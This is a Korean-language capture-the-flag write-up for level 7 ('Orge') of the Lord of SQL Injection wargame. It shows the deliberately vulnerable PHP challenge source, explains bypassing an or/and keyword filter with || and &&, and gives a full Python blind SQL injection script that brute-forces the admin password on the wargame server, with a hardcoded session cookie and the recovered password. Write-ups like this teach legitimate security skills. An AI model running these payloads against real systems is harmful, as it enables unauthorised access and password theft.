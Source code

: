 ﻿# Lord of SQL Injection No.7 Orge

Orge 문제는 `or`, `and`를 우회하여 `Blind SQL Injection`을 하도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

이전 문제인 `Darkelf` 문제와 같이 `preg_match` 함수에서 `or`, `and`를 찾으면 `HeHe`를 출력하고 문제 풀이에 실패하게 된다.

`No.4 orc` 문제의 소스 코드와 비교하면 위의 코드만 추가되고 모두 같은 형식임을 알 수 있다.

#### los no.4 orc 되짚어보기
* [los_writeup - No.4 orc](https://github.com/JaehunYoon/Lord_of_SQL_Injection_Writeup/blob/master/los_no4_orc.md)

#### 문제 풀이 조건
`or`, `and`를 사용하지 않으면서 `$_result`의 `pw`값과 `$_GET` 방식으로 입력받은 `pw`가 일치하면 문제 풀이에 성공한다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = ""
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
    add_url = "' || length(pw)={} -- ;".format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        add_url = "' || id='admin' && substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

(no.4에서 사용했던 python 코드는 `urllib.request.urlopen`에 사용한 변수를 `req`라고 지정했었다. 현재 코드부터는 `req`를 `response`로 바꾸었다.)

```python
for i in range(1,10):
...
```
첫 `for`문에서 DB에 있는 `pw`값의 길이를 찾는다.

`"length(pw)={}".format(i)` 를 통해 `pw` 길이가 일치하면 `Hello admin`을 출력하기 때문에 이를 `find` 함수로 찾게 되면 `pwlen`에 그 값을 저장하여 다음 `for`문을 진행하도록 하였다.

`for`문이 진행되면 `pwlen`에는 8이 들어가게 된다.
즉, 우리가 찾아야 할 `pw`의 길이는 8이라는 것을 알 수 있다.

`pw`의 길이를 찾고 난 후에는 `pw` 값을 찾기 위한 이중 `for`문이 실행된다.
코드는 `no.4 orc`와 유사하며 `add_url`에 삽입된 부분에 `or`와 `and`를 사용하던 부분을 `no.6 darkelf` 문제와 같이 `||`와 `&&`로 대체하여 `for`문을 진행하면 `pw` 값을 찾게 된다.

```
http://los.eagle-jump.org/orge_***.php?pw=6c864dec
```
pw=6c864dec 를 URL에 대입하면 `$_result`의 `pw` 값과 일치하기 때문에 문제 풀이에 성공하게 된다.